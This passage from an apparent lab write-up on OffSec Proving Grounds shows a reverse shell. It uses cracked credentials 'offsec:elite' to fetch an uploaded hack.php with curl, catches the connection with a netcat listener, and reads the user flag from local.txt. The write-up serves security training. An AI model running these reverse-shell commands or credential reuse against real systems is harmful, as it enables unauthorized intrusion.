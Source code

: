 - Port 242 is hosting the server with cracked credential **offsec:elite**.
- So, we can curl the shell with authentication details to get reverse shell

```bash
curl -u 'offsec:elite' -X GET http://192.168.55.46:242/hack.php
```

- We will get reverse shell in our netcat listener.

```bash
nc -lvnp 1337
listening on [any] 1337 ...
connect to [192.168.49.55] from (UNKNOWN) [192.168.55.46] 49171
SOCKET: Shell has connected!
SOCKET: Shell ready. Type commands.
Microsoft Windows [Version 6.0.6001]
Copyright (c) 2006 Microsoft Corporation.  All rights reserved.

C:\wamp\bin\apache\Apache2.2.21>id
id

C:\wamp\bin\apache\Apache2.2.21>'id' is not recognized as an internal or external command,
operable program or batch file.



C:\wamp\bin\apache\Apache2.2.21>
C:\wamp\bin\apache\Apache2.2.21>whoami
whoami
livda\apache

```

---

## User Flag Extraction local.txt

- Now we can just navigate to **C:\Users\apache\Desktop** and read the flag inside **local.txt** file.

```bash
C:\Users\apache\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is BCAD-595B

 Directory of C:\Users\apache\Desktop

07/09/2020  11:05 AM    <DIR>          .
07/09/2020  11:05 AM    <DIR>          ..
07/17/2025  08:46 AM                34 local.txt
               1 File(s)             34 bytes
               2 Dir(s)   6,031,880,192 bytes free

C:\Users\apache\Desktop>type local.txt
type local.txt
9cd1c822f2********d8c8d30b8e0
```

---